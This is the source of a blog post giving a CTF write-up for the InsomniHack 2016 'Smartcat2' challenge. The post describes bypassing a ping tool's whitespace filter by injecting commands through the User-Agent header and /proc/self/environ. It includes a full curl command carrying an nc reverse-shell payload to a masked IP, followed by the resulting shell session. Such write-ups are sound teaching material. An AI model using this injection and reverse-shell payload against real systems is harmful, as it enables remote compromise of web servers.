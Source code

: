 ```yaml
---
layout: blog_item
title:  "InsomniHack CTF Teaser - Smartcat2 Writeup"
date:   2016-01-18 14:00:10
author: Arr0way
description: 'InsomniHack Teaser CTF 2016, Smartcat2 challenge writeups.'
categories: [walkthroughs]
tags:
- burp
- 'command injection'
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}


## Challenge Description

Exploit the web based ping command tool and capture the flag.  

![smartcat2 CTF](/img/blog/insomnihack/smartcat2.png)


## InsomniHack Smartcat 2

Due to filtering it was impossible to enter any white space in commands, making it far more difficult than the smartcat1 challenge. Initially I tried and failed to use a <code>/dev/tcp/ip/port</code> reverse shell.

### proc/self/environ Injection

The environment variable <code>HTTP_USER_AGENT=</code> which contains the contents of the <code>User-Agent:</code> field, had no filtering allowing for easy injection of a reverse shell.

Using command injection it was possible to execute <code>/proc/self/env</code> and successfully execute a reverse shell.

### Reverse Shell

Putting it all together using curl:

{% highlight bash %}
curl 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi' --user-agent ';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc XXX.XXX.XXX.XXX 80 >/tmp/f;exit' --data 'dest=%0ash</proc/self/environ'
{% endhighlight %}

The flag was not readable by <code>www-data</code>, the binary <code>readflag</code> was required to read the contents of the flag.

A couple of lines needed typing in to "confirm" you had an interactive shell, after entering the flag was displayed:

{% highlight bash %}

www-data@smartcat:/home/smartcat$ ./readflag
./readflag
Give me a...
Give me a...
... flag!
... flag!
Flag:
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'|  hjw
        "----^----"

INS{shells_are _way_better_than_cats}

www-data@smartcat:/home/smartcat$

{% endhighlight %}

Thanks for the challenge :)
